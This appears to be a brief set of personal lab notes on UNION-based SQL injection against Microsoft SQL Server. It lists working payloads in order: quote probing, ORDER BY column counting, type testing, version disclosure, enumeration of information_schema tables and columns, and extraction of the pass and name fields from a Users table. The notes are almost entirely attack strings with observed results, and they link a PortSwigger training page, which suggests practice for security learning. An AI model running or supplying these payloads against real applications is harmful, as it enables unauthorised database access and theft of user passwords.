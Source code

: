 # MSSQL

```
Going with a parameter.
' 500 error
'' ok

' ORDER BY 1-- ok
' ORDER BY 2-- ok
' ORDER BY 3-- ok.
' ORDER BY 4-- nope.

' UNION SELECT NULL,NULL,NULL-- ok
' UNION SELECT 'a',NULL,NULL-- ok

' UNION SELECT 'a',NULL,'a'-- nope
' UNION SELECT 'a',NULL,'1'-- ok.
' UNION SELECT @@version,NULL,NULL-- ok.
```

Microsoft SQL Server 2012

https://portswigger.net/web-security/sql-injection/examining-the-database

`SELECT * FROM information_schema.tables`

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE`

```
' UNION SELECT TABLE_NAME,NULL,NULL FROM information_schema.tables--
```

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

`TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE`

```
' UNION SELECT COLUMN_NAME,NULL,NULL FROM information_schema.columns WHERE table_name = 'Users'--
```

```
' UNION SELECT pass,NULL,NULL FROM Users--
' UNION SELECT name,NULL,NULL FROM Users--
```
